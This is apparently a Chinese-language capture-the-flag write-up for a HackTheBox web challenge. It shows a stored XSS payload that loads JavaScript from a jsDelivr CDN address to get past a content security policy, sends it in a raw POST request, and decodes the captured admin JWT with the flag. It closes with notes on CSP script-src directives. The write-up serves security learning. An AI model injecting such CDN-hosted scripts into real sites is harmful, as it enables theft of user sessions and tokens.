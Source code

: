 ```nginx
https://cdn.jsdelivr.net/gh/bx33661/demo@main/1.js

<script src="https://cdn.jsdelivr.net/gh/bx33661/demo@main/1.js"></script>
```

发包请求

```nginx
POST /api/submit HTTP/1.1
Host: 94.237.55.43:52628
Accept: */*
Origin: http://94.237.55.43:52628
Referer: http://94.237.55.43:52628/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 174

{"halloween_name":"<script src=\"https://cdn.jsdelivr.net/gh/bx33661/demo@main/1.js\"></script>","email":"bx33661@qq.com","costume_type":"Pick one","trick_or_treat":"tricks"}
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756959676495-d7891f09-5a3a-42a9-b07e-31d4633f9b5e.png)

得到 admin 的 jwt，解 jwt 得到

```nginx
{
  "username": "admin",
  "user_role": "admin",
  "flag": "HTB{d0n't_4ll0w_cdn_1n_c5p!!}",
  "iat": 1756959656
}
```



##  **脚本与执行相关**
+ `script-src`  
控制 `<script>` 加载来源。支持：
    - `'self'`（同源）
    - `'unsafe-inline'`（允许内联脚本，不推荐）
    - `'unsafe-eval'`（允许 eval/new Function，不推荐）
    - `'nonce-xyz'`（带 nonce 的脚本允许执行）
    - `'sha256-...'`（哈希匹配的脚本允许执行）
+ `script-src-elem`（CSP3）  
专门限制 外部脚本元素 的来源。
+ `script-src-attr`（CSP3）  
专门限制 内联事件属性（如 `<div onclick="...">`）和 `javascript:` URL。



几个概念
